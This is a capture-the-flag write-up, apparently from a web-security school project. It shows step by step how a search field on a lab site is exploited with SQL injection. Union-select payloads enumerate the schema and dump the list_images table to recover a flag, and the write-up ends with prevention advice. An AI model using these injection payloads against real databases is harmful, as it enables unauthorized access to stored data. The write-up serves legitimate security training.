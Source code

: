 ## Where to Locate:

Following our experience with the member input field sql injection we now find another input field on the http://$IP/?page=searchimg page.

## Exploit:

So again we test if we can perform a sql injection by entering "0 or 1=1" into the input field and submit. Again we see it is possible

Knowing this we can begin by searching for the table name that the query searchs
We can do this by entering the command 
```1 and 1=2 union select 1,concat(table_name) from information_schema.tables where table_schema = database()```

This returns the table name=list_images

Following which we can search for the column names associated with the users table by entering the following command
```1 and 1=2 union select 1,concat(column_name) from information_schema.columns where table_schema = database()```

Which will return the following column names (id, url, title, comment)

We can now use all this information to obtain all the details of the users table and the contents of it's columns by entering the following command
```1 and 1=2 union select 1,concat(id, url, title, comment) from list_images```

The results from this command return a number of fields of which the following is of particular interest
"5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"

Following the instructions, we decrypt the md5 hash and obtain the word albatroz, we then perform a sh256 encrypt and obtain
the hash "f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188" which is our flag

## Prevention:

1. Input validation
2. Parametrized queries
3. Stored procedures
4. Escaping